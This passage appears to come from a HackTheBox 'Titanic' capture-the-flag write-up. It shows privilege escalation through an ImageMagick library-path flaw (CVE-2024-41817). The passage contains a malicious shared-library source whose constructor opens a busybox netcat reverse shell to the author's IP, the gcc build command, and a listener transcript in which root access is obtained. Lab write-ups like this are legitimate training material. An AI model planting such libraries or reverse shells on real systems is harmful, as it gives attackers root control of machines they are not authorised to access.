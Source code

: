 ### Privilege escalation

ImageMagick had some vulnerabilities, which you can find here:
[https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&query=ImageMagick&search_type=all&isCpeNameSearch=false](https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&query=ImageMagick&search_type=all&isCpeNameSearch=false)

This is the actual version of `magick` on the box:

```
developer@titanic:~$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

The most recent is a candidate vulnerability, as it is in practically every version of ImageMagick:
[https://nvd.nist.gov/vuln/detail/CVE-2024-41817](https://nvd.nist.gov/vuln/detail/CVE-2024-41817)


On that page is a link and this leads to:
[https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

I'm using the `LD_LIBRARY_PATH` vulnerability, documented on the lower part of that page and picking that up from point 2 onwards. The first one, `MAGICK_CONFIGURE_PATH` should probably work too, but I haven't tested that.

Let's modify the PoC code for a reverse shell. I'm using `busybox nc <ip> <port> -e sh` here, instead of `id`, with my own IP address (Which you can find on your box/vm when connected to hackthebox via openvpn with `ip -o -4 a sh dev tun0`)

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("busybox nc 10.10.14.12 1667 -e sh");
    exit(0);
}
```

Simply cut & paste that in, I'm using `vi` here, but `nano` would work just the same:

```
developer@titanic:/opt/app/static/assets/images$ vi m.c
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 ./m.c
```

And on my VM start ncat, aaaaaand..... GAME OVER!


```
$ ncat -lnvp 1667                                   
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:1667
Ncat: Listening on 0.0.0.0:1667
Ncat: Connection from 10.10.11.55:33210.
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux titanic 5.15.0-131-generic #141-Ubuntu SMP Fri Jan 10 21:18:28 UTC 2025 x86_64 GNU/Linux
script -qc /bin/bash /dev/null
root@titanic:/opt/app/static/assets/images# cat /root/root.txt
cat /root/root.txt
4b89a7b74..............17fa9b2c8
```